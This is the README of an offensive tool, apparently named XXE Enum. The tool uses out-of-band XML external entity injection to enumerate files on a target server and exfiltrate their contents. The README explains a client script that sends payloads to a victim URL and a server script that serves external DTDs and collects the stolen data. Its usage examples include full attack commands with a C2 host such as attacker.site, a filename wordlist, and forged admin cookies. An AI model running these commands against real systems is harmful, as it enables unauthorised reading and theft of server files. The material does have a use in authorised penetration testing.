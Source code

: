 # XXE Enum
Enumerate and exfiltrate files via out of band XXE, for situations where resolved entity is not displayed in the response, and directory listing is not available.

client.js would take a list of filenames, try exfiltrate the content of those files via XXE from your main target server, and server.js would serve external DTDs and receive the exfiltrated file content.

If other servers are parsing XML stored in your main target at a later time, you could also configure your server to serve a different DTD to conduct a different action or to track which server that "/etc/passwd" was from.

## Usage
**server.js**

```
$ node server.js -h

Options
        -h						Print this message

        -p <port>				The listening port, e.g. -p 1337, default 8800
        --b64					Use this option if expecting file content to be passed as base64
        --target <target_ip>	Use this option if you want to send different dtds to different servers, e.g. send "send.dtd" only to your main target (target_ip), and send "send-alt.dtd" to any potential second order XXEs
        --https					Use this option if you want to start https server
        --key <key file>		The key file used to start https server, e.g. --key /root/key.pem
        --cert <cert file>		The cert file used to start https server, e.g --cert /root/cert.crt

// out of the box
$ node server.js

// use a different port
$ node server.js -p 1337

// start a https server
$ node server.js -p 1337 --https --key /root/key.pem --cert /root/cert.crt

// serve send.dtd only to 192.168.1.100, while send send-alt.dtd to all other IPs, if they are requesting the external DTD, i.e. vulnerable to XXE
$ node server.js --target 192.168.1.100
```

**client.js**

```
$ node client.js -h

Options
        -h					Print this message

        -u <url>			(Required) the victim page, e.g. -u http://vulnerable.site:8080/page.php?a=1
        -w <wordlist>		(Required) the wordlist to load, e.g. -w /usr/share/wordlists/filenames.txt
        --c2 <url>			(Required) the server where server.js is run and waiting for incoming request from victim, e.g. --c2 http://attacker.site:8090

        --proxy <proxy>		The http proxy to go through for all requests, e.g. --proxy http://127.0.0.1:8080
        --base <path>		The base path prefixed to all filenames, e.g. --base "/var/www", default "/"
        --php				Use this option if the server can handle php protocols, i.e. able to encode the file content using base64
        -t <thread>			Indicate how many threads to run simultaneously, e.g. -t 15, default 5
        -v					Verbose output
        --headers <headers>	Additional request headers (besides content-type, content-length, and host) in JSON format, e.g. --headers '{"X-CSRF-Token": "awesome_token", "Cookie": "sid=secret_session; admin=1;"}'
        --body <xml>		The normal POST request body, e.g. --body "<subscribe><email>test@example.com</email><name>test</name></subscribe>", default: <login><username>test</username><password>test</password></login>

// minimal
$ node client.js -u http://192.168.1.100/subscribe.php?redirect=1 -w /usr/share/wordlists/filenames.txt --c2 http://192.168.1.200:8800

// full blown
$ node client.js -u http://192.168.1.100/subscribe.php?redirect=1 -w /usr/share/wordlists/filenames.txt --c2 http://192.168.1.200:8800 --proxy http://127.0.0.1:8080 --base "/var/www" -t 15 --php -v --headers '{"Cookie": "sid=secret_session; admin=1;", "Referer": "http://192.168.1.100/index.php"}' --body "<subscribe><email>test@example.com</email><name>test</name></subscribe>"
```

## TODO
- https proxy not working. Only http proxy atm